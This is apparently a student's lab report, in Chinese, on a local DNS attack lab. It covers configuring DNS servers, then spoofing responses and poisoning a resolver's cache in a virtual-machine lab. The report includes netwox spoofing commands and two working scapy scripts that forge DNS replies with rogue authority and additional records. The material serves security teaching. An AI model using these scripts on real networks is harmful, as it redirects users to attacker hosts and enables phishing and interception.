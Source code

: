 #<center>Local DNS Attack Lab</center>
<center>2018级信息安全 管箫 18307130012</center>

##Lab Tasks (Part I):<br>Setting Up a Local DNS Server
```
在本次实验中，我们使用三台虚拟机，ip地址分别为：
Attacker: 192.168.61.138
Victim: 192.168.61.139
DNS Server: 192.168.61.140
```

###Task 1: Configure the User Machine
本部分修改Victim设备上的DNS解析设置文件<br>将本地DNS Server修改为指定主机：192.168.61.140
![avatar](/1.png)
可以观察到dns查询的第一跳变为192.168.140

###Task 2: Set up a Local DNS Server
本部分修改DNS服务器主机上的配置
![avatar](/2.png)
可以观察到在捕获到的No.3到No.40数据包中，完成了对www.baidu.com的DNS查询。
![avatar](/3.png)
而触发DNS查询的ping请求只有No.41一次，之后的均使用了DNS Cache。
![avatar](/4.png)
观察DNS服务器的Cache记录文件，可以看到产生的Cache记录。

###Task 3: Host a Zone in the Local DNS Server
这一部分在DNS服务器上配置www.example.com的记录
![avatar](/5.png)
观察到主机将来自192.168.61.140的回应当作最终的解析记录
这是因为我们在192.168.61.140主机上刚性配置了该域名的DNS记录的原因。

##Lab Tasks (Part II): Attacks on DNS
###Task 4: Modifying the Host File
![avatar](/6.png)
可以观察到的配置前，bank32.com解析到谷歌的用户内容网站上
![avatar](/7.png)
修改后，www.bank32.com解析到了复旦主页的IP地址

###Task 5: Directly Spoofing Response to User
我们知道，当伪造的DNS响应满足以下条件时，就会被主机接受：
>1、The source IP address must match the IP address of the DNS server.
2、The destination IP address must match the IP address of the user’s machine.
3、The source port number (UDP port) must match the port number that the DNS request was sent to (usually port 53).
4、The destination port number must match the port number that the DNS request was sent from.
5、The UDP checksum must be correctly calculated.
6、The transaction ID must match the transaction ID in the DNS request.
7、The domain name in the question section of the reply must match the domain name in the question section of the request.
8、The domain name in the answer section must match the domain name in the question section of the DNS request.
>9、The User’s computer must receive the attacker’s DNS reply before it receives the legitimate DNS response.

为了满足条件1~8，攻击者可以通过嗅探DNS请求包并相应构造响应包的方式来达成目的。
通过在attacker主机上执行以下命令：
```
sudo netwox 105 --hostname www.example.net --hostnameip "1.2.3.4" --authns "ns.example.net" --authnsip "1.2.3.4" --device "ens33" --filter "src host 192.168.61.139"
```
我们成功让Victim主机将www.example.net解析到了1.2.3.4
![avatar](/8.png)

###Task 6: DNS Cache Poisoning Attack
在这一任务里，我们不是要欺骗Victim的DNS解析，而是通过在本地DNS服务器中写入特定的记录来欺骗Victim主机的域名解析结果。
通过在attacker主机上执行以下命令：
```
sudo netwox 105 --hostname www.example.net --hostnameip "1.2.3.4" --authns "ns.example.net" --authnsip "1.2.3.4" --device "ens33" --filter "src host 192.168.61.140" --ttl 600 --spoofip raw
```
观察WireShark抓包结果
![avatar](/9.png)
观察dig命令的返回值
![avatar](/10.png)
观察DNS服务器的Cache内容
![avatar](/11.png)
我们可以确定，此时本地DNS服务器的Cache已经被毒化。

###Task 7: DNS Cache Poisoning: Targeting the Authority Section
###Task 8: Targeting Another Domain
这两个任务一同完成，我们编写如下代码：
```
from scapy.all import *

def spoof_dns(pkt):
    if DNS in pkt and b'www.example.net' in pkt[DNS].qd.qname:
        ip = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        udp = UDP(dport=pkt[UDP].sport, sport=53)
        an1 = DNSRR(rrname=pkt[DNS].qd.qname, type='A',
                    ttl=259200, rdata='202.120.224.81')
        # The Authority Sectio
        ns1 = DNSRR(rrname='example.net', type='NS',
                    ttl=259200, rdata='attacker32.com')
        ns2 = DNSRR(rrname='google.com', type='NS',
                    ttl=259200, rdata='attacker32.com')
        # The Additional Section
        ar1 = DNSRR(rrname='attacker32.com', type='A',
                    ttl=259200, rdata='202.120.224.81')
        dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,
                  qdcount=1, ancount=1, nscount=2, arcount=1,
                  an=an1, ns=ns1/ns2,ar=ar1)
        spoofpkt = ip/udp/dns
        send(spoofpkt, verbose=1)

pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
```
并在Victim主机上dig www.example.net，收到了伪造的响应。
![avatar](/12.png)
可以观察到Task8的任务结果。
我们接下来检查Task7的效果：
![avatar](/13.png)
可以观察到"123.example.net"在查询时被重定向到了"attacker32.com"

###Task 9: Targeting the Additional Section
我们编写代码：
```
from scapy.all import *
def spoof_dns(pkt):
    if DNS in pkt and b'www.example.net' in pkt[DNS].qd.qname:
        ip = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        udp = UDP(dport=pkt[UDP].sport, sport=53)
        an1 = DNSRR(rrname=pkt[DNS].qd.qname, type='A',
                    ttl=259200, rdata='202.120.224.81')
        # The Authority Sectio
        ns1 = DNSRR(rrname='example.net', type='NS',
                    ttl=259200, rdata='attacker32.com')
        ns2 = DNSRR(rrname='example.net', type='NS',
                    ttl=259200, rdata='ns.example.net')
        # The Additional Section
        ar1 = DNSRR(rrname='attacker32.com', type='A',
                    ttl=259200, rdata='1.2.3.4')
        ar2 = DNSRR(rrname='ns.example.net', type='A',
                    ttl=259200, rdata='5.6.7.8')
        ar3 = DNSRR(rrname='www.facebook.com', type='A',
                    ttl=259200, rdata='3.4.5.6')
        dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,
                  qdcount=1, ancount=1, nscount=2, arcount=3,
                  an=an1, ns=ns1/ns2, ar=ar1/ar2/ar3)
        spoofpkt = ip/udp/dns
        send(spoofpkt, verbose=1)

pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
```
并且按上述过程进行毒化，我们观察到DNS服务器的Cache中存储了
![avatar](./14.png)
所有*.example.net情况下的记录。
这是因为DNS服务只信任同域名的DNS服务器提供的权威记录。
